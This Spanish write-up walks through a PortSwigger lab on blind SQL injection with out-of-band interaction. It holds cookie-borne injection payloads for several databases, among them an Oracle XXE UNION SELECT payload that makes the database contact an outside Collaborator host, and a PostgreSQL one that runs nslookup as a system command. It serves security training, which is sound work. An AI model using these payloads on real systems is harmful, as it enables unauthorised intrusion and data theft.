



# Write-up - PortSwigger SQLi Lab 15

Voy a hacer un laboratorio de Port Swigger. El lab 15 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: Inyección SQL ciega con interacción fuera de banda (Out-of-Band)

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para analítica y realiza una consulta SQL que incluye el valor de la cookie enviada.

La consulta SQL se ejecuta de forma asíncrona y no tiene efecto en la respuesta de la aplicación. Sin embargo, puedes provocar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, explota la vulnerabilidad de inyección SQL para provocar una consulta DNS a Burp Collaborator.

## Nota

Para evitar que la plataforma Academy se utilice para atacar a terceros, nuestro firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debes usar el servidor público por defecto de Burp Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Contexto del laboratorio

Este laboratorio es diferente a los anteriores de blind SQL injection.

En los labs anteriores, aunque no viéramos directamente los datos, teníamos algún canal observable:

- En respuestas condicionales: aparecía o no aparecía `Welcome back!`.
- En errores condicionales: había `200 OK` o `500 Internal Server Error`.
- En time-based: la respuesta tardaba más o menos.
- En visible error-based: el servidor imprimía mensajes de error detallados.

En este laboratorio, el escenario cambia:

- La consulta SQL se ejecuta de forma **asíncrona**.
- La respuesta HTTP de la aplicación no cambia.
- No vamos a ver errores útiles.
- No vamos a ver contenido distinto.
- No vamos a usar el tiempo de respuesta como canal principal.
- Lo que necesitamos es provocar una interacción externa.

La idea es:

> Si consigo que la base de datos haga una consulta DNS hacia un dominio que controlo, puedo confirmar que mi SQL se ejecutó.

Ese dominio controlado lo proporciona **Burp Collaborator**.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ¿Qué es una interacción Out-of-Band?

Una interacción **Out-of-Band** significa que la información o la confirmación del ataque no vuelve por la misma respuesta HTTP que estamos viendo en el navegador o en Burp Repeater.

En una inyección SQL normal:

```text
Request HTTP -> Aplicación -> Base de datos -> Response HTTP
```

La respuesta vuelve por el mismo canal.

En una interacción OAST / OOB:

```text
Request HTTP -> Aplicación -> Base de datos
                                  |
                                  |---- DNS / HTTP ----> Burp Collaborator
```

La confirmación no llega en la respuesta de la web, sino en un canal externo.

Por eso se llama **out-of-band**, fuera de banda.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Parámetro vulnerable

El parámetro vulnerable es:

```text
TrackingId
```

Está dentro de la cabecera:

```http
Cookie: TrackingId=...
```

La aplicación usa esta cookie para analítica y ejecuta una consulta SQL que contiene el valor de la cookie.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Objetivo

El objetivo no es extraer todavía usuarios o contraseñas.

En este laboratorio basta con:

- inyectar SQL en la cookie `TrackingId`;
- hacer que la base de datos resuelva un dominio de Burp Collaborator;
- confirmar en Burp Collaborator que se ha producido una interacción DNS;
- conseguir que el laboratorio se marque como resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0ac20034036497b780ed120300cc0082.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio. La aplicación parece una tienda normal. La vulnerabilidad no está en un campo visible, sino en la cookie `TrackingId`, que la aplicación usa internamente para analítica.

Una vez dentro, abrimos BurpSuitePro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL.

Para ello, nos vamos a la categoria de Gifts:

```http
GET /filter?category=Gifts HTTP/1.1
```

y capturamos la petición de burpsuite:

```http
GET /filter?category=Gifts HTTP/2
Host: 0a6e00f00300a14f80c9082100a900a9.web-security-academy.net
Cookie: TrackingId=7mmWU5CqxQ6nFKus; session=fr0P5k8QfZUOMhyIYRT50KTU5VwlrI2T
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Ahora, además sabemos que no tenemos que extraer ningún tipo de información.

Nos vale si conseguimos dicha conexión o interacción más bien.

Las peticiones son de tipo asíncrono. Esto significa que la petición se ejecuta de forma asíncrona con el servidor y, de hecho, eso puede ser uno de los motivos por los que no te devuelva información en la respuesta HTTP.

Tenemos que provocar una interacción con nuestra máquina de atacante o, más exactamente, con el servicio de Burp Collaborator.

Tenemos la cookie de `TrackingId` y la petición que hemos capturado se hace correctamente. Si le damos a **Send**:

```http
HTTP/2 200 OK
```

La respuesta normal no nos dice nada útil.

Esto es esperado.

En este laboratorio, el resultado importante no aparece en la response HTTP, sino en la pestaña Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Identificación del tipo de base de datos mediante payloads OAST

Como no hay ninguna forma posible de saber identificar directamente qué BBDD está funcionando por detrás, entonces probamos todos los payloads que nos ofrece el cheatsheet de PortSwigger, hasta que una nos funcione, para identificar el tipo de BBDD.

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

## Payloads por base de datos

### Oracle

XXE vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

The following technique works on fully patched Oracle installations, but requires elevated privileges:

```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

### Microsoft

```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

### PostgreSQL

```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

### MySQL

The following techniques work on Windows only:

```sql
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
```

```sql
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Spoiler: Va a ser Oracle

Así que cogemos esta:

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Y en la petición vamos a tener que poner:

```http
Cookie:TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual;
```

Es decir:

```text
a' + la consulta que nos ofrece PortSwigger y WebEncodeado para que si no con los espacios se rompe.
```

## Por qué hay que encodearlo

El payload contiene:

- espacios
- comillas
- símbolos XML
- `?`
- `%`
- `:`
- `/`
- `;`

Todo eso dentro de una cookie puede romperse si no se codifica correctamente.

Por eso se usa URL encoding / Web encoding.

Ejemplos:

- `?` pasa a `%3f`
- `:` pasa a `%3a`
- `%` pasa a `%25`
- los espacios se sustituyen por `+`

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Explicación del Payload

## Exfiltración OAST en Oracle: XML y Entidades Externas (XXE)

A diferencia de SQL Server, que puede usar `xp_dirtree`, Oracle no tiene una función directa de "red" tan sencilla para este caso.

Por eso, los atacantes aprovechan las capacidades de procesamiento XML de la base de datos para forzar una conexión externa.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 1. Análisis de los Componentes

La consulta se puede dividir en tres capas:

## A. La función EXTRACTVALUE

```sql
EXTRACTVALUE(xml, xpath)
```

Originalmente sirve para extraer datos de un nodo XML usando una ruta XPath.

### Por qué se usa aquí

Para que esta función trabaje, primero tiene que "parsear" o leer y procesar el XML que le pasamos.

Es el "detonador" de la carga útil.

Realmente no nos importa el valor que extraiga. Lo importante es que obligue a Oracle a procesar el XML completo.

## B. El objeto XMLTYPE

```sql
xmltype('<?xml...>')
```

Esta función convierte una cadena de texto en un objeto XML real que Oracle puede entender.

Aquí es donde inyectamos el código malicioso.

El XML no está pensado para devolvernos nada visible en la web. Está pensado para forzar al parser XML de Oracle a resolver una entidad externa.

## C. La Entidad Externa (XXE) en el DOCTYPE

Esta es la verdadera "munición":

```xml
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ID.burpcollaborator.net/"> %remote;]>
```

### ENTITY % remote

Define una entidad paramétrica llamada `remote`.

### SYSTEM "http://..."

Le dice a Oracle que el contenido de esa entidad está en una URL externa.

### %remote;

Al final, invocamos la entidad.

Para poder mostrar el contenido, Oracle está obligado a realizar una petición HTTP a esa URL para descargar el archivo.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 2. El Flujo del Ataque

## Inyección

Introduces este payload en un parámetro vulnerable.

## Procesamiento

Oracle recibe la consulta y trata de crear el objeto `XMLTYPE`.

## Resolución de Red

Al leer el `DOCTYPE`, el procesador XML de Oracle ve que necesita un recurso externo:

```text
http://BURP-COLLABORATOR...
```

## Interacción Out-of-Band

Oracle realiza una petición DNS y luego, en algunos casos, una petición HTTP hacia tu servidor de Burp Collaborator.

## Confirmación

Tú recibes un aviso en Burp Suite indicando que la IP del servidor de la base de datos ha intentado conectar contigo.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 3. ¿Por qué se usa FROM dual?

En Oracle, todas las sentencias `SELECT` deben tener una tabla de origen.

`DUAL` es una tabla especial creada por Oracle que tiene una sola columna y una sola fila.

Se usa precisamente para ejecutar funciones o cálculos constantes que no dependen de datos reales de una tabla.

Por eso este payload termina con:

```sql
FROM dual
```

Sin `FROM dual`, Oracle no aceptaría el `SELECT`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Inserción del payload de Burp Collaborator

Ahora lo siguiente que hay que hacer es en esta consulta:

```http
Cookie:TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

Selecciono `BURP-COLLABORATOR-SUBDOMAIN` y doy click botón derecho y doy a:

```text
Insert Collaborator payload
```

Automáticamente me reemplaza eso por esto:

```text
jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com
```

que se ha generado por BurpSuite.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Primer intento: SELECT directo

Si le damos a Send no va a ocurrir nada.

¿Por qué?

Porque el `SELECT` no vale en ese punto. Nos falta un `UNION`.

El intento sería algo parecido a:

```http
Cookie:TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

Pero eso no se integra correctamente con la consulta original.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload final con UNION

El payload funcional queda así:

```http
Cookie: TrackingId=a'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# La función del UNION en la Inyección SQL

En el caso que planteas, la consulta original de la aplicación es algo como esto:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '[TU_COOKIE]'
```

## 1. El problema: ¿Por qué falla sin el UNION?

Si tú simplemente inyectas el `SELECT EXTRACTVALUE...`, la consulta quedaría así:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'a' SELECT EXTRACTVALUE...
```

Esto es un error de sintaxis.

Una base de datos no puede ejecutar dos sentencias `SELECT` seguidas sin un conector.

Es como decir en español:

```text
Dame una manzana dame una pera
```

Falta la "y".

## 2. La solución: El conector UNION

El operador `UNION` se utiliza para combinar el conjunto de resultados de dos o más sentencias `SELECT`.

Al poner:

```sql
' + UNION + SELECT...
```

lo que estás haciendo es:

1. Cerrar la búsqueda del `TrackingId` original con el valor `'a'`.
2. Unir una segunda consulta, tu carga útil OAST, a la primera.
3. Conseguir que la base de datos ejecute también la función XML.

La base de datos ahora lo entiende como:

> "Busca el TrackingId `a` Y TAMBIÉN ejecuta esta función XML".

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Confirmación en Burp Collaborator

Ahora vamos en BurpSuite a la pestañita de **Collaborator** y pulsamos:

```text
Poll Now
```

Y sí nos aparecen las interacciones (imagen 2).



**Referencia a la imagen 2:** Burp Collaborator muestra varias interacciones DNS asociadas al subdominio generado. Esto confirma que la base de datos procesó el payload y realizó una consulta DNS hacia el dominio controlado por Burp.

De hecho si ahora vamos a la web nos sale laboratorio resuelto (imagen 3).



**Referencia a la imagen 3:** La web del laboratorio muestra el banner de laboratorio resuelto. La plataforma ha detectado que se produjo una interacción DNS hacia Burp Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Análisis de las interacciones en Collaborator

La captura de pantalla muestra que el servidor de la base de datos, Oracle, ha "picado el anzuelo".

Al recibir tu payload con el `UNION SELECT`, la base de datos se vio obligada a contactar con el mundo exterior.

## 1. Análisis de las Interacciones DNS

Fíjate en la columna `Type`: dice `DNS`.

Esto significa que el servidor de la víctima intentó "traducir" el dominio de Collaborator:

```text
jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com
```

a una dirección IP.

Como tú eres el dueño de ese subdominio a través de Burp, el servidor de DNS de Burp registró la petición y te la muestra aquí.

## 2. ¿Por qué hay varias entradas?

Es normal ver 3 o 4 entradas para una sola inyección.

Esto sucede por cómo funciona la infraestructura de Internet:

- Diferentes servidores de DNS o resolvers pueden estar replicando la consulta.
- El servidor de la víctima puede reintentar la conexión varias veces si no recibe una respuesta inmediata.
- Puede haber resolución IPv4 / IPv6 o resolvers intermedios.
- Puede existir caché o reintentos de la aplicación o del resolver.

Por eso una sola inyección puede generar varias líneas en Burp Collaborator.

## 3. La importancia de la "Source IP address"

Esa columna revela la IP pública del servidor de la base de datos o de su servidor DNS saliente.

Esto es información valiosa, ya que a menudo el servidor de la base de datos está en una red interna y esta interacción es la única forma de descubrir cómo sale a Internet.

No siempre será la IP directa de la base de datos. Puede ser:

- un resolver DNS corporativo;
- un servidor intermedio;
- una IP de salida NAT;
- un proxy de red.

Pero aun así confirma que la infraestructura de la víctima procesó tu payload.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Explicación final de por qué llega la interacción al Collaborator

## 1. El detonador: EXTRACTVALUE y xmltype

La base de datos no ejecuta código XML porque sí. Necesita una función que la obligue a procesarlo.

### xmltype(...)

Esta función toma una cadena de texto y la convierte en un objeto XML.

Al hacerlo, el motor de Oracle debe analizar o parsear todo el contenido, incluyendo la cabecera técnica, el `DOCTYPE`.

### EXTRACTVALUE(..., '/l')

Esta función intenta buscar un dato dentro del XML.

Es el pretexto para que `xmltype` termine de procesar todo el bloque malicioso.

## 2. El núcleo del ataque: La Entidad Externa (XXE)

Dentro del XML hay una sección llamada:

```xml
<!DOCTYPE root [...]>
```

Aquí es donde ocurre la magia:

```xml
<!ENTITY % remote SYSTEM "http://jvi...com/">
```

Estás definiendo una entidad, una especie de variable, llamada `remote`.

El modificador `SYSTEM` le dice a Oracle:

> "El valor de esta variable no está aquí, tienes que ir a buscarlo a esta URL externa".

Después aparece:

```xml
%remote;
```

Esta pequeña instrucción invoca la entidad.

Al ver esto, el procesador XML de Oracle dice:

> "Necesito el contenido de `remote` para seguir, voy a hacer la petición HTTP a ese dominio de oastify.com".

## 3. El transporte: UNION y FROM dual

### UNION

Como vimos antes, une tu consulta maliciosa a la consulta original de la aplicación.

Sin él, la base de datos daría un error de sintaxis y nunca llegaría a leer el XML.

### FROM dual

Oracle exige que todo `SELECT` apunte a una tabla.

Como estamos ejecutando una función técnica y no necesitamos datos de una tabla real, usamos `dual`, la tabla virtual de Oracle, para que la consulta sea válida.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ¿Por qué llega la interacción al Collaborator?

Cuando el motor de la base de datos procesa el `%remote;`, ocurre lo siguiente en la red:

## Resolución DNS

Oracle ve el dominio:

```text
jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com
```

Para saber a qué IP conectarse, pregunta a su servidor DNS:

> "¿Dónde está este servidor?"

## Registro en Burp

Como ese subdominio pertenece a BurpSuite, el servidor DNS de Burp anota:

> "Alguien desde esta IP me acaba de preguntar por este subdominio".

## Respuesta en el panel

Burp Collaborator te muestra esa anotación en tu pantalla.

Eso es exactamente lo que vimos en la captura anterior.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico completo del proceso

1. Abrimos el laboratorio.
2. Identificamos que el parámetro vulnerable es la cookie `TrackingId`.
3. Enviamos la petición al Repeater.
4. Confirmamos que la respuesta HTTP normal no nos da información útil.
5. Revisamos los payloads OAST por tipo de base de datos.
6. Probamos el payload de Oracle basado en `EXTRACTVALUE`, `xmltype` y XXE.
7. Insertamos un subdominio de Burp Collaborator.
8. Codificamos correctamente el payload para que no se rompa en la cookie.
9. Añadimos `UNION SELECT` para integrarlo en la consulta original.
10. Ejecutamos la request.
11. Vamos a Burp Collaborator.
12. Pulsamos `Poll Now`.
13. Vemos interacciones DNS.
14. Confirmamos que el laboratorio se ha resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payloads clave utilizados

## Payload base de Oracle

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

## Payload URL encoded inicial

```http
Cookie:TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual;
```

## Payload final funcional con UNION

```http
Cookie: TrackingId=a'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//jviqgve4nfh28n1ltukh6nlwtnzen4bt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra una técnica distinta a las SQLi anteriores.

Aquí no dependemos de:

- contenido visible;
- mensajes de error;
- diferencias booleanas en la respuesta;
- retrasos de tiempo.

Dependemos de una interacción externa.

La base de datos procesa una carga XML con una entidad externa y, al intentar resolverla, realiza una consulta DNS hacia un dominio que controlamos mediante Burp Collaborator.

Ese evento queda registrado en Burp y confirma que la inyección se ejecutó.

La idea central es:

> Si la aplicación no responde con datos, haz que la base de datos te llame a ti.

Eso es una interacción **Out-of-Band**.

**Laboratorio resuelto.**

